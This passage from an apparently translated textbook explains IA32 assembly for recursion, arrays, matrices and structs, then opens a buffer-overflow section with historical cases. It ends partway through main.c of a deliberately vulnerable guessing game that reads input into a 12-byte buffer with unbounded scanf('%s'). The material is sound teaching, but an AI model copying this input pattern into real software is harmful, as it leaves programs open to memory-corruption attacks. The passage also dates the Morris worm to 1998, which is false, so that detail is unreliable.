0x08048430 <+19>: mov   0x8(%ebp),%eax        # copy n to eax (result)

0x08048433 <+22>: sub   $0x1,%eax             # subtract 1 from n (result--)

0x08048436 <+25>: mov   %eax,(%esp)           # copy n-1 to top of stack

0x08048439 <+28>: call  0x804841d <sumr>      # call sumr() function

0x0804843e <+33>: mov   0x8(%ebp),%edx        # copy n to edx

0x08048441 <+36>: add   %edx,%eax             # add n to result (result+=n)

0x08048443 <+38>: leave                       # prepare to leave the function

0x08048444 <+39>: ret                         # return result
```

上述汇编代码的每一行都注释了它的英文翻译。在这里，我们展示了对应的 `goto` 形式（第一种）和没有 `goto` 语句的 C 程序（第二种）：

C `goto` 形式

```
int sumr(int n) {

    int result;

    if (n > 0) {

        goto body;

    }

 result = 0;

    goto done;

body:

    result = n;

    result -= 1;

    result = sumr(result);

    result += n;

done:

    return result;

}
```

无 `goto` 的 C 版本

```
int sumr(int n) {

    int result;

    if (n <= 0) {

        return 0;

    }

    result = sumr(n-1);

    result += n;

    return result;

}
```

虽然这个翻译最初看起来可能与原始的 `sumr` 函数不完全相同，但仔细检查后会发现，两个函数实际上是等效的。

#### 8.6.1 动画：观察调用栈如何变化

作为练习，我们鼓励你绘制栈的变化，并查看值如何变化。我们已经在线提供了一个动画，展示了当我们以值 3 运行此函数时，栈如何更新。^(2)

### 8.7 数组

回想一下，数组（参见第 44 页的“数组简介”）是同一类型数据元素的有序集合，并连续存储在内存中。静态分配的一维数组（参见第 81 页的“一维数组”部分）形式为`<type> arr[N]`，其中`<type>`是数据类型，`arr`是与数组关联的标识符，`N`是数据元素的数量。声明一个静态数组为`<type> arr[N]`或动态声明为`arr = malloc(N*sizeof(<type>))`会分配`N` × `sizeof(<type>)`字节的总内存，并且`arr`指向它。

要访问数组`arr`中索引为`i`的元素，可以使用语法`arr[i]`。编译器通常在转换为汇编语言之前，将数组引用转换为指针运算（参见第 67 页的“指针变量”）。因此，`arr+i`等同于`&arr[i]`，`*(arr+i)`等同于`arr[i]`。由于`arr`中的每个数据元素都是类型`<type>`，因此`arr+i`意味着元素`i`存储在地址`arr + sizeof(<type>) × i`处。

表 8-17 列出了常见的数组操作及其对应的汇编指令。假设寄存器`%edx`存储`arr`的地址，寄存器`%ecx`存储值`i`，寄存器`%eax`表示某个变量`x`。

**表 8-17：** 常见数组操作及其对应的汇编表示

| **操作** | **类型** | **汇编表示** |
| --- | --- | --- |
| `x = arr` | `int *` | `movl %edx,%eax` |
| `x = arr[0]` | `int` | `movl (%edx),%eax` |
| `x = arr[i]` | `int` | `movl (%edx,%ecx,4),%eax` |
| `x = &arr[3]` | `int *` | `leal 0xc(%edx),%eax` |
| `x = arr+3` | `int *` | `leal 0xc(%edx),%eax` |
| `x = *(arr+3)` | `int` | `movl 0xc(%edx),%eax` |

请特别注意表 8-17 中每个表达式的*类型*。通常，编译器使用`movl`指令来解引用指针，使用`leal`指令来计算地址。

注意，要访问元素`arr[3]`（或使用指针运算`*(arr+3)`），编译器会在地址`arr+3*4`上执行内存查找，而不是`arr+3`。为了理解为什么这样做是必要的，回想一下，数组中索引为`i`的任何元素都存储在地址`arr + sizeof(<type>) * i`上。因此，编译器必须将索引乘以数据类型的大小，以计算正确的偏移量。还要记住，内存是按字节寻址的；按正确字节数偏移等同于计算地址。

作为示例，考虑一个包含五个整数元素的数组（`array`）（参见图 8-6）。



*图 8-6：内存中五个整数数组的布局。每个标记为*x*[i]的框代表一个字节，每个`int`占四个字节。*

注意到由于`array`是一个整数数组， 每个元素占用四个字节。因此，一个包含五个元素的整数数组会占用 20 个字节的连续内存。

为了计算元素 3 的地址，编译器将索引 3 乘以整数类型的数据大小（4），得到偏移量 12。果然，图 8-6 中的元素 3 位于字节偏移量*x*[12]。

让我们来看一个简单的 C 函数`sumArray`，它对数组中的所有元素进行求和：

```
int sumArray(int *array, int length) {

    int i, total = 0;

 for (i = 0; i < length; i++) {

        total += array[i];

    }

    return total;

}
```

`sumArray`函数接受一个数组的地址和数组的长度，并对数组中的所有元素进行求和。现在，看看`sumArray`函数对应的汇编代码：

```
<sumArray>:

 <+0>:  push %ebp                    # save ebp

 <+1>:  mov  %esp,%ebp               # update ebp (new stack frame)

 <+3>:  sub  $0x10,%esp              # add 16 bytes to stack frame

 <+6>:  movl $0x0,-0x8(%ebp)         # copy 0 to %ebp-8 (total)

 <+13>: movl $0x0,-0x4(%ebp)         # copy 0 to %ebp-4 (i)

 <+20>: jmp  0x80484ab <sumArray+46> # goto <sumArray+46> (start)

 <+22>: mov  -0x4(%ebp),%eax         # copy i to %eax

 <+25>: lea  0x0(,%eax,4),%edx       # copy i*4 to %edx

 <+32>: mov  0x8(%ebp),%eax          # copy array to %eax

 <+35>: add  %edx,%eax               # copy array+i*4 to %eax

 <+37>: mov  (%eax),%eax             # copy *(array+i*4) to %eax

 <+39>: add  %eax,-0x8(%ebp)         # add *(array+i*4) to total

 <+42>: addl $0x1,-0x4(%ebp)         # add 1 to i

 <+46>: mov  -0x4(%ebp),%eax         # copy i to %eax

 <+49>: cmp  0xc(%ebp),%eax          # compare i with length

 <+52>: jl   0x8048493 <sumArray+22> # if i<length goto <sumArray+22> (loop)

 <+54>: mov  -0x8(%ebp),%eax         # copy total to eax

 <+57>: leave                        # prepare to leave the function

 <+58>: ret                          # return total
```

在跟踪这些汇编代码时，要考虑所访问的数据是表示地址还是值。例如，位于`<sumArray+13>`的指令导致`%ebp-4`包含一个`int`类型的变量，该变量最初被设置为 0。与此不同，存储在`%ebp+8`的参数是函数的第一个参数（`array`），它是`int *`类型，表示数组的基地址。另一个变量（我们称之为`total`）存储在`%ebp-8`的位置。

让我们仔细看看位于`<sumArray+22>`和`<sumArray+39>`之间的五条指令：

```

<+22>: mov  -0x4(%ebp),%eax      # copy i to %eax

<+25>: lea  0x0(,%eax,4),%edx    # copy i*4 to %edx

<+32>: mov  0x8(%ebp),%eax       # copy array to %eax

<+35>: add  %edx,%eax            # copy array+i*4 to %eax

<+37>: mov  (%eax),%eax          # copy *(array+i*4) to %eax

<+39>: add  %eax,-0x8(%ebp)      # add *(array+i*4) to total (total+=array[i])
```

回想一下，编译器通常使用`lea`来对操作数执行简单的算术运算。操作数`0x0(,%eax,4)`可以转换为`%eax*4 + 0x0`。由于`%eax`存储的是`i`的值，这个操作将值`i*4`复制到`%edx`。此时，`%edx`包含必须添加的字节数，以便计算出`array[i]`的正确偏移量。

下一条指令（`mov 0x8(%ebp),%eax`）将第一个参数（`array`的基地址）复制到`%eax`中。在下一条指令中将`%edx`加到`%eax`中，使得`%eax`包含`array+i*4`。回想一下，`array`中索引为`i`的元素存储在地址`array + sizeof(<type>) * i`处。因此，`%eax`现在包含`&array[i]`的汇编级别计算地址。

位于`<sumArray+37>`的指令*解引用*了位于`%eax`的值，将`array[i]`的值放入`%eax`中。最后，`%eax`被加到`%ebp-8`中的值，或者叫做`total`。因此，位于`<sumArray+22>`和`<sumArray+39>`之间的五条指令对应于`sumArray`函数中的行`total += array[i]`。

### 8.8 矩阵

矩阵是一个二维数组。在 C 语言中，矩阵可以作为二维数组（`M[n][m]`）静态分配内存，或者通过一次调用`malloc`动态分配内存，或者作为数组的数组进行动态分配。我们来考虑数组的数组实现。第一个数组包含`n`个元素（`M[n]`），我们的矩阵中每个元素`M[i]`包含一个`m`个元素的数组。以下代码片段声明了大小为 4 × 3 的矩阵：

```
//statically allocated matrix (allocated on stack)

int M1[4][3];

//dynamically allocated matrix (programmer friendly, allocated on heap)

int **M2, i;

M2 = malloc(4 * sizeof(int*));

for (i = 0; i < 4; i++) {

    M2[i] = malloc(3 * sizeof(int));

}
```

在动态分配的矩阵中，主数组包含一个连续的`int`指针数组。每个整数指针指向内存中的不同数组。图 8-7 说明了我们通常如何可视化每个矩阵。


*图 8-7：静态分配（`M1`）和动态分配（`M2`）的 3 × 4 矩阵示意图*

对于这两种矩阵声明，元素（*i*，*j*）可以通过双重索引语法`M[i][j]`来访问，其中`M`可以是`M1`或`M2`。然而，这些矩阵在内存中的组织方式不同。尽管两者都将元素在主数组中连续存储，但我们的静态分配矩阵还将所有行在内存中连续存储，如图 8-8 所示。



*图 8-8：矩阵`M1`按行优先顺序的内存布局*

对于`M2`，这种连续排序无法得到保证。回想一下（在第 86 页的“二维数组内存布局”中）提到的，要在堆上连续分配一个*n* × *m* 矩阵，我们应该使用一次`malloc`调用来分配*n* × *m* 个元素：

```
//dynamic matrix (allocated on heap, memory efficient way)

#define ROWS 4

#define COLS 3

int *M3;

M3  = malloc(ROWS * COLS * sizeof(int));
```

回想一下，在声明`M3`时，元素（*i*，*j*）*不能*通过`M[i][j]`符号来访问。相反，我们必须使用格式`M3[i*cols + j]`来索引该元素。

#### 8.8.1 连续二维数组

考虑一个函数`sumMat`，它将指向一个连续分配的矩阵（无论是静态分配还是内存高效的动态分配矩阵）作为第一个参数，另外还需要行数和列数，并返回矩阵内所有元素的和。

我们在接下来的代码片段中使用了缩放索引，因为它适用于静态和动态分配的连续矩阵。回想一下，语法`m[i][j]`在之前讨论的内存高效的连续动态分配方式中不起作用。

```
int sumMat(int *m, int rows, int cols) {

    int i, j, total = 0;

    for (i = 0; i < rows; i++){

        for (j = 0; j < cols; j++){

            total += m[i*cols + j];

        }

    }

    return total;

}
```

下面是相应的汇编代码。每一行都附有其英文翻译：

```
<sumMat>:

0x08048507 <+0>:  push %ebp                  # save ebp

0x08048508 <+1>:  mov  %esp,%ebp             # update ebp (new stack frame)

0x0804850a <+3>:  sub  $0x10,%esp            # add 4 more spaces to stack frame

0x0804850d <+6>:  movl $0x0,-0xc(%ebp)       # copy 0 to ebp-12 (total)

0x08048514 <+13>: movl $0x0,-0x4(%ebp)       # copy 0 to ebp-4 (i)

0x0804851b <+20>: jmp  0x8048555 <sumMat+78> # goto <sumMat+78>

0x0804851d <+22>: movl $0x0,-0x8(%ebp)       # copy 0 to ebp-8 (j)

0x08048524 <+29>: jmp  0x8048549 <sumMat+66> # goto <sumMat+66>

0x08048526 <+31>: mov  -0x4(%ebp),%eax       # copy i to eax

0x08048529 <+34>: imul 0x10(%ebp),%eax       # multiply i * cols, place in eax

0x0804852d <+38>: mov  %eax,%edx             # copy i*cols to edx

0x0804852f <+40>: mov  -0x8(%ebp),%eax       # copy j to %eax

0x08048532 <+43>: add  %edx,%eax             # add i*cols with j, place in eax

0x08048534 <+45>: lea  0x0(,%eax,4),%edx     # mult (i*cols+j) by 4,put in edx

0x0804853b <+52>: mov  0x8(%ebp),%eax        # copy m pointer to eax

0x0804853e <+55>: add  %edx,%eax             # add m to (i*cols+j)*4,put in eax

0x08048540 <+57>: mov  (%eax),%eax           # copy m[i*cols+j] to eax

0x08048542 <+59>: add  %eax,-0xc(%ebp)       # add eax to total

0x08048545 <+62>: addl $0x1,-0x8(%ebp)       # increment j by 1 (j+=1)

0x08048549 <+66>: mov  -0x8(%ebp),%eax       # copy j to eax

0x0804854c <+69>: cmp  0x10(%ebp),%eax       # compare j with cols

0x0804854f <+72>: jl   0x8048526 <sumMat+31> # if (j < cols) goto <sumMat+31>

0x08048551 <+74>: addl $0x1,-0x4(%ebp)       # add 1 to i (i+=1)

0x08048555 <+78>: mov  -0x4(%ebp),%eax       # copy i to eax

0x08048558 <+81>: cmp  0xc(%ebp),%eax        # compare i with rows

0x0804855b <+84>: jl   0x804851d <sumMat+22> # if (i < rows) goto sumMat+22

0x0804855d <+86>: mov  -0xc(%ebp),%eax       # copy total to eax

0x08048560 <+89>: leave                      # prepare to leave the function

0x08048561 <+90>: ret                        # return total
```

局部变量`i`、`j`和`total`分别存储在栈的地址`%ebp-4`、`%ebp-8`和`%ebp-12`中。输入参数`m`、`row`和`cols`分别存储在`%ebp+8`、`%ebp+12`和`%ebp+16`的位置。利用这些知识，让我们聚焦于仅处理矩阵中元素（*i*，*j*）访问的部分：

```
0x08048526 <+31>: mov  -0x4(%ebp),%eax    # copy i to eax

0x08048529 <+34>: imul 0x10(%ebp),%eax    # multiply i with cols, place in eax

0x0804852d <+38>: mov  %eax,%edx          # copy i*cols to edx
```

第一组指令计算`i * cols`并将结果存入寄存器`%edx`。回想一下，对于名为`matrix`的矩阵，`matrix + (i * cols)`等同于`&matrix[i]`。

```
0x0804852f <+40>: mov -0x8(%ebp),%eax   # copy j to eax

0x08048532 <+43>: add %edx,%eax         # add i*cols with j, place in eax

0x08048534 <+45>: lea 0x0(,%eax,4),%edx # multiply (i*cols+j) by 4, put in edx
```

下一组指令计算`(i * cols + j) * 4`。编译器将索引`(i * cols) + j`乘以四，因为矩阵中的每个元素是一个四字节的整数，这个乘法使编译器能够计算出正确的偏移量。

最后一组指令将计算出的偏移量加到矩阵指针上，并解引用该指针以得到元素 (*i*, *j*) 的值：

```
0x0804853b <+52>: mov 0x8(%ebp),%eax    # copy m pointer to eax

0x0804853e <+55>: add %edx,%eax         # add m to (i*cols+j)*4, place in eax

0x08048540 <+57>: mov (%eax),%eax       # copy m[i*cols+j] to eax

0x08048542 <+59>: add %eax,-0xc(%ebp)   # add eax to total
```

第一条指令将矩阵 `m` 的地址加载到寄存器 `%eax` 中。`add` 指令将偏移量 `(i*cols + j)*4` 加到 `m` 的地址上，以正确计算元素 (*i*, *j*) 的地址，然后将此地址存入寄存器 `%eax`。第三条指令解引用 `%eax` 并将结果存入寄存器 `%eax`。最后一条指令将 `%eax` 中的值加到累加器 `total` 中，`total` 位于堆栈地址 `%ebp-0xc`。

让我们考虑如何在图 8-9 中访问元素 (1,2)。


*图 8-9：矩阵 `M1` 按行主序的内存布局*

元素 (1,2) 位于地址 `M1 + (1 * COLS) + 2`。由于 `COLS` = 3，元素 (1,2) 对应于 `M1+5`。为了访问这个位置的元素，编译器必须将 5 乘以 `int` 数据类型的大小（四个字节），得到偏移量 `M1+20`，这对应于图中字节 *x*[20]。解引用这个位置会得到元素 5，这确实是矩阵中的元素 (1,2)。

#### 8.8.2 非连续矩阵

非连续矩阵的实现稍微复杂一些。图 8-10 直观地展示了 `M2` 在内存中的可能布局。



*图 8-10：矩阵 `M2` 在内存中的非连续布局*

请注意，指针数组是连续的，并且 `M2` 的每个元素指向的数组（例如，`M2[i]`）也是连续的。然而，这些独立的数组之间并不连续。

以下示例中的 `sumMatrix` 函数接受一个整数指针数组（称为 `matrix`）作为第一个参数，第二和第三个参数是行数和列数：

```
int sumMatrix(int **matrix, int rows, int cols) {

    int i, j, total=0;

    for (i = 0; i < rows; i++) {

        for (j = 0; j < cols; j++) {

            total += matrix[i][j];

        }

    }

    return total;

}
```

尽管这个函数看起来与之前展示的 `sumMat` 函数几乎相同，但该函数接受的是一个包含连续指针的矩阵。每个指针都包含一个独立连续数组的地址，这个数组对应矩阵中的一行。

以下是 `sumMatrix` 的相应汇编代码。每一行都带有它的英文翻译。

```
0x080484ad <+0>:  push %ebp                     # save ebp

0x080484ae <+1>:  mov  %esp,%ebp                # update ebp (new stack frame)

0x080484b0 <+3>:  sub  $0x10,%esp               # add 4 spaces to stack frame

0x080484b3 <+6>:  movl $0x0,-0xc(%ebp)          # copy 0 to %ebp-12 (total)

0x080484ba <+13>: movl $0x0,-0x4(%ebp)          # copy 0 to %ebp-4 (i)

0x080484c1 <+20>: jmp  0x80484fa <sumMatrix+77> # goto <sumMatrix+77>

0x080484c3 <+22>: movl $0x0,-0x8(%ebp)          # copy 0 to %ebp-8 (j)

0x080484ca <+29>: jmp  0x80484ee <sumMatrix+65> # goto <sumMatrix+65>

 0x080484cc <+31>: mov  -0x4(%ebp),%eax          # copy i to %eax

0x080484cf <+34>: lea  0x0(,%eax,4),%edx        # mult i by 4, place in %edx

0x080484d6 <+41>: mov  0x8(%ebp),%eax           # copy matrix to %eax

0x080484d9 <+44>: add  %edx,%eax                # put (i * 4) + matrix in %eax

0x080484db <+46>: mov  (%eax),%eax              # copy matrix[i] to %eax

0x080484dd <+48>: mov  -0x8(%ebp),%edx          # copy j to %edx

0x080484e0 <+51>: shl  $0x2,%edx                # mult j by 4, place in %edx

0x080484e3 <+54>: add  %edx,%eax                # put (j*4)+matrix[i] in %eax

0x080484e5 <+56>: mov  (%eax),%eax              # copy matrix[i][j] to %eax

0x080484e7 <+58>: add  %eax,-0xc(%ebp)          # add matrix[i][j] to total

0x080484ea <+61>: addl $0x1,-0x8(%ebp)          # add 1 to j (j+=1)

0x080484ee <+65>: mov  -0x8(%ebp),%eax          # copy j to %eax

0x080484f1 <+68>: cmp  0x10(%ebp),%eax          # compare j with cols

0x080484f4 <+71>: jl   0x80484cc <sumMatrix+31> # if j<cols goto<sumMatrix+31>

0x080484f6 <+73>: addl $0x1,-0x4(%ebp)          # add 1 to i (i+=1)

0x080484fa <+77>: mov  -0x4(%ebp),%eax          # copy i to %eax

0x080484fd <+80>: cmp  0xc(%ebp),%eax           # compare i with rows

0x08048500 <+83>: jl   0x80484c3 <sumMatrix+22> # if i<rows goto<sumMatrix+22>

0x08048502 <+85>: mov  -0xc(%ebp),%eax          # copy total to %eax

0x08048505 <+88>: leave                         # prepare to leave function

0x08048506 <+89>: ret                           # return total
```

再次提醒，变量 `i`、`j` 和 `total` 分别位于堆栈地址 `%ebp-4`、`%ebp-8` 和 `%ebp-12`。输入参数 `m`、`row` 和 `cols` 分别位于堆栈地址 `%ebp+8`、`%ebp+12` 和 `%ebp+16`。

让我们聚焦在专门处理元素 (*i*, *j*) 访问的部分，或者说 `matrix[i][j]`：

```
0x080484cc <+31>: mov -0x4(%ebp),%eax      # copy i to %eax

0x080484cf <+34>: lea 0x0(,%eax,4),%edx    # multiply i by 4, place in %edx

0x080484d6 <+41>: mov 0x8(%ebp),%eax       # copy matrix to %eax

0x080484d9 <+44>: add %edx,%eax            # add i*4 to matrix, place in %eax

0x080484db <+46>: mov (%eax),%eax          # copy matrix[i] to %eax
```

`<sumMatrix+31>` 和 `<sumMatrix+46>` 之间的五条指令计算 `matrix[i]`，或 `*(matrix+i)`。请注意，编译器需要在将 `i` 加到 `matrix` 上之前，先将 `i` 乘以四，以计算正确的偏移量（回想一下指针的大小是四个字节）。接着，位于 `<sumMatrix+46>` 的指令会解引用计算出来的地址，以获取元素 `matrix[i]`。

由于 `matrix` 是一个 `int` 指针数组，位于 `matrix[i]` 位置的元素本身是一个 `int` 指针。`matrix[i]` 中的第 *j* 个元素位于 `matrix[i]` 数组的偏移量 *j* × 4 处。

接下来的一组指令提取了 `matrix[i]` 数组中的第 *j* 个元素：

```
0x080484dd <+48>: mov -0x8(%ebp),%edx    # copy j to %edx

0x080484e0 <+51>: shl $0x2,%edx          # multiply j by 4, place in %edx

0x080484e3 <+54>: add %edx,%eax          # add j*4 to matrix[i], place in %eax

0x080484e5 <+56>: mov (%eax),%eax        # copy matrix[i][j] to %eax

0x080484e7 <+58>: add %eax,-0xc(%ebp)    # add matrix[i][j] to total
```

这段代码的第一条指令将变量 `j` 加载到寄存器 `%edx` 中。编译器使用左移（`shl`）指令将 `j` 乘以 4，并将结果存储到寄存器 `%edx` 中。然后，编译器将该值加到 `matrix[i]` 的地址上，以获取 `matrix[i][j]` 的地址。

让我们回顾一下 图 8-10，并考虑对 `M2[1][2]` 的访问示例。为了方便，我们在 图 8-11 中重新呈现了该图：



*图 8-11: 矩阵 `M2` 在内存中的非连续布局*

请注意，`M2` 从内存位置 *x*[0] 开始。编译器首先通过将 1 乘以 4（`sizeof(int *)`），然后加到 `M2` 的地址（*x*[0]）来计算 `M2[1]` 的地址，得出新的地址 *x*[4]。对这个地址进行解引用，得到与 `M2[1]` 相关联的地址，即 *x*[36]。然后，编译器将索引 2 乘以 4（`sizeof(int)`），并将结果（8）加到 *x*[36]，得到最终地址 *x*[44]。对 *x*[44] 进行解引用，得到值 5。果然，在 图 8-11 中，与 `M2[1][2]` 对应的元素值为 5。

### 8.9 汇编中的结构体

`struct`（请参阅 第 103 页 中的“C 结构”）是 C 中创建数据类型集合的另一种方式。与数组不同，结构体允许将不同的数据类型组合在一起。C 语言将 `struct` 存储为一个一维数组，数据元素（字段）按顺序连续存储。

让我们回顾一下 第一章 中的 `struct studentT`：

```
struct studentT {

    char name[64];

    int  age;

    int  grad_yr;

    float gpa;

};

struct studentT student;
```

图 8-12 显示了 `student` 在内存中的布局。为了举例说明，假设 `student` 从地址 *x*[0] 开始。每个 *x*[*i*] 表示某个字段的地址。



*图 8-12: `struct studentT` 的内存布局*

字段按声明的顺序连续存储在内存中。在 图 8-12 中，`age` 字段分配在 `name` 字段之后的内存位置（字节偏移量 *x*[64]），然后是 `grad_yr`（字节偏移量 *x*[68]）和 `gpa`（字节偏移量 *x*[72]）字段。这种组织方式使得访问字段更加高效节省内存。

为了理解编译器如何生成汇编代码以操作 `struct`，请考虑函数 `initStudent`：

```
void initStudent(struct studentT *s, char *nm, int ag, int gr, float g) {

    strncpy(s->name, nm, 64);

    s->grad_yr = gr;

    s->age = ag;

    s->gpa = g;

}
```

`initStudent` 函数使用 `struct studentT` 的基地址作为第一个参数，其他字段的期望值作为剩余参数。以下是该函数的汇编代码。一般来说，传递给 `initStudent` 函数的参数 *i* 位于栈地址 `(ebp+8)` + 4 × *i*。

```
<initStudent>:

 <+0>:   push  %ebp                     # save ebp

 <+1>:   mov   %esp,%ebp                # update ebp (new stack frame)

 <+3>:   sub   $0x18,%esp               # add 24 bytes to stack frame

 <+6>:   mov   0x8(%ebp),%eax           # copy first parameter (s) to eax

 <+9>:   mov   0xc(%ebp),%edx           # copy second parameter (nm) to edx

 <+12>   mov   $0x40,0x8(%esp)          # copy 0x40 (or 64) to esp+8

 <+16>:  mov   %edx,0x4(%esp)           # copy nm to esp+4

 <+20>:  mov   %eax,(%esp)              # copy s to top of stack (esp)

 <+23>:  call  0x8048320 <strncpy@plt>  # call strncpy(s->name, nm, 64)

 <+28>:  mov   0x8(%ebp),%eax           # copy s to eax

 <+32>:  mov   0x14(%ebp),%edx          # copy fourth parameter (gr) to edx

 <+35>:  mov   %edx,0x44(%eax)          # copy gr to offset eax+68 (s->grad_yr)

 <+38>:  mov   0x8(%ebp),%eax           # copy s to eax

 <+41>:  mov   0x10(%ebp),%edx          # copy third parameter (ag) to edx

 <+44>:  mov   %edx,0x40(%eax)          # copy ag to offset eax+64 (s->age)

 <+47>:  mov   0x8(%ebp),%edx           # copy s to edx

 <+50>:  mov   0x18(%ebp),%eax          # copy g to eax

 <+53>:  mov   %eax,0x48(%edx)          # copy g to offset edx+72 (s->gpa)

 <+56>:  leave                          # prepare to leave the function

 <+57>:  ret                            # return
```

注意每个字段的字节偏移量是理解这段代码的关键。这里有几个需要记住的事项。

`strncpy` 调用将 `s` 中 `name` 字段的基地址、数组 `nm` 的地址和长度规范作为三个参数。回想一下，因为 `name` 是 `struct studentT` 中的第一个字段，所以 `s` 的地址与 `s->name` 的地址是同义的。

```
 <+6>:   mov   0x8(%ebp),%eax           # copy first parameter (s) to eax

 <+9>:   mov   0xc(%ebp),%edx           # copy second parameter (nm) to edx

 <+12>   mov   $0x40,0x8(%esp)          # copy 0x40 (or 64) to esp+8

 <+16>:  mov   %edx,0x4(%esp)           # copy nm to esp+4

 <+20>:  mov   %eax,(%esp)              # copy s to top of stack (esp)

 <+23>:  call  0x8048320 <strncpy@plt>  # call strncpy(s->name, nm, 64)
```

下一部分（指令 `<initStudent+28>` 到 `<initStudent+35>`）将 `gr` 参数的值放置在 `s` 起始位置偏移 68 的位置。重新查看 图 8-12 中的内存布局，可以看到这个地址对应 `s->grad_yr`。

```
 <+28>:  mov   0x8(%ebp),%eax           # copy s to eax

 <+32>:  mov   0x14(%ebp),%edx          # copy fourth parameter (gr) to edx

 <+35>:  mov   %edx,0x44(%eax)          # copy gr to offset eax+68 (s->grad_yr
```

下一部分（指令 `<initStudent+38>` 到 `<initStudent+53>`）将 `ag` 参数复制到 `s->age` 字段。之后，`g` 参数的值被复制到 `s->gpa` 字段（字节偏移量为 72）：

```
 <+38>:  mov   0x8(%ebp),%eax           # copy s to eax

 <+41>:  mov   0x10(%ebp),%edx          # copy third parameter (ag) to edx

 <+44>:  mov   %edx,0x40(%eax)          # copy ag to offset eax+64 (s->age)

 <+47>:  mov   0x8(%ebp),%edx           # copy s to edx

 <+50>:  mov   0x18(%ebp),%eax          # copy g to eax

 <+53>:  mov   %eax,0x48(%edx)          # copy g to offset edx+72 (s->gpa)
```

#### 8.9.1 数据对齐与结构体

考虑以下修改后的 `struct studentT` 声明：

```
struct studentTM {

    char name[63]; //updated to 63 instead of 64

    int  age;

    int  grad_yr;

    float gpa;

};

struct studentTM student2;
```

`name` 字段的大小被修改为 63 字节，而不是原来的 64 字节。考虑这如何影响 `struct` 在内存中的布局。可能会让人误以为它就像 图 8-13 中那样。



*图 8-13：更新后的 `struct` `studentTM` 的错误内存布局。请注意，`name` 字段的大小从 64 字节减少到 63 字节。*

在这个示意图中，`age` 字段紧随 `name` 字段之后。但是这是不正确的。图 8-14 展示了内存中的实际布局。



*图 8-14：更新后的 `struct` `studentTM` 的正确内存布局。编译器添加了字节 *x*[63] 来满足内存对齐要求，但它并不对应任何字段。*

IA32 的对齐策略要求二字节数据类型（即 `short`）存放在二字节对齐的地址上，四字节数据类型（`int`、`float`、`long` 和指针类型）存放在四字节对齐的地址上，八字节数据类型（`double`、`long long`）存放在八字节对齐的地址上。对于 `struct`，编译器会在字段之间添加空字节作为 *填充*，以确保每个字段满足其对齐要求。例如，在之前代码片段中声明的 `struct` 中，编译器在字节 *x*[63] 处添加了一个空字节（或填充字节），确保 `age` 字段从一个四字节对齐的地址开始。内存中正确对齐的值可以在单次操作中读取或写入，从而提高效率。

考虑以下 `struct` 定义时发生的情况：

```
struct studentTM {

    int  age;

    int  grad_yr;

    float gpa;

    char name[63];

};

struct studentTM student3;
```

将`name`数组移至末尾可以确保`age`、`grad_yr`和`gpa`四个字节对齐。大多数编译器会去除`struct`末尾的填充字节。然而，如果`struct`被用在数组中（例如：`struct studentTM courseSection[20];`），编译器会再次在数组中的每个`struct`之间添加填充字节，以确保满足对齐要求。

### 8.10 真实世界：缓冲区溢出

C 语言不执行自动数组边界检查。访问数组边界之外的内存会导致问题，通常会引发如段错误之类的错误。然而，一个巧妙的攻击者可以注入恶意代码，故意超出数组的边界（也称为*缓冲区*），迫使程序以意外的方式执行。在最严重的情况下，攻击者可能运行代码，允许他们获得*root 权限*或操作系统级别的计算机系统访问权限。利用已知程序中的缓冲区溢出错误的恶意软件被称为*缓冲区溢出漏洞*。

在本节中，我们将使用 GDB 和汇编语言全面描述缓冲区溢出漏洞的机制。在阅读本章之前，我们建议你先阅读第 177 页上的“调试汇编代码”部分。

#### 8.10.1 缓冲区溢出的著名案例

缓冲区溢出漏洞在 1980 年代开始出现，并在 2000 年代初期持续困扰计算机行业。尽管许多现代操作系统已经针对最简单的缓冲区溢出攻击提供了防护，但不小心的编程错误仍然可能让现代程序暴露于攻击之下。近期，Skype、^(3) Android、^(4) Google Chrome^(5)等程序中都发现了缓冲区溢出漏洞。以下是一些著名的缓冲区溢出漏洞历史案例。

##### 莫里斯蠕虫

莫里斯蠕虫^(6)于 1998 年从麻省理工学院发布到 ARPANet（为了掩饰它是由康奈尔大学的学生编写的），并利用了 Unix 指纹守护进程（`fingerd`）中的缓冲区溢出漏洞。在 Linux 及其他类 Unix 系统中，*守护进程*是一种持续在后台执行的进程，通常负责清理和监控任务。`fingerd`守护进程返回关于计算机或用户的友好报告。最关键的是，蠕虫具有复制机制，使其能多次发送到同一台计算机，导致系统变得无法使用。尽管作者声称蠕虫本意是无害的知识性练习，但复制机制使得蠕虫容易传播，并且难以清除。此后，其他蠕虫也开始利用缓冲区溢出漏洞来未经授权地访问系统。著名的例子包括 Code Red（2001 年）、MS-SQLSlammer（2003 年）和 W32/Blaster（2003 年）。

##### AOL 聊天大战

大卫·奥尔巴赫（David Auerbach），^(7) 前微软工程师，详细描述了他在上世纪 90 年代末将微软的 Messenger 服务（MMS）与 AOL 即时通讯（AIM）整合时遇到的缓冲区溢出问题。当时，AOL 即时通讯（AIM）是*最*受欢迎的即时消息服务，如果你想给朋友和家人发送即时消息，它就是首选。微软通过在 MMS 中设计一个功能，使得 MMS 用户能够与 AIM “好友”进行对话，从而试图在这个市场中占有一席之地。AOL 不满这一举措，于是修补了他们的服务器，使得 MMS 无法再连接到它们。微软工程师发现了一种方法，使得 MMS 客户端能够模拟 AIM 客户端发送的消息到 AOL 服务器，这使得 AOL 难以区分 MMS 和 AIM 接收到的消息。AOL 通过改变 AIM 发送消息的方式进行了回应，而 MMS 工程师也相应地更改了客户端的消息格式，使其再次与 AIM 的消息格式一致。这场“聊天战争”一直持续，直到 AOL 开始在他们自己的客户端中利用缓冲区溢出错误来验证发送的消息是否来自 AIM 客户端。由于 MMS 客户端没有相同的漏洞，聊天战争结束，AOL 成为了胜利者。

#### 8.10.2 初步了解：猜数字游戏

为了帮助你理解缓冲区溢出攻击的机制，我们提供了一个 32 位的简单程序可执行文件，允许用户与程序进行猜数字游戏。下载 `secret` 可执行文件^(8) 并使用 `tar` 命令解压：

```
$ tar -xzvf secret.tar.gz
```

在这里，我们提供了与可执行文件相关的主文件副本：

main.c

```
#include <stdio.h>

#include <stdlib.h>

#include "other.h" //contains secret function definitions

/*prints out the You Win! message*/

void endGame(void) {

    printf("You win!\n");

    exit(0);

}

/*main function of the game*/

int main() {

    int guess, secret, len;

    char buf[12]; //buffer (12 bytes long)

    printf("Enter secret number:\n");

    scanf("%s", buf); //read guess from user input

    guess = atoi(buf); //convert to an integer

    secret = getSecretCode(); //call the getSecretCode() function

    //check to see if guess is correct

    if (guess == secret) {

        printf("You got it right!\n");

    }

    else {

 printf("You are so wrong!\n");

        return 1; //if incorrect, exit

    }

    printf("Enter the secret string to win:\n");

    scanf("%s", buf); //get secret string from user input

    guess = calculateValue(buf, strlen(buf)); //call calculateValue function

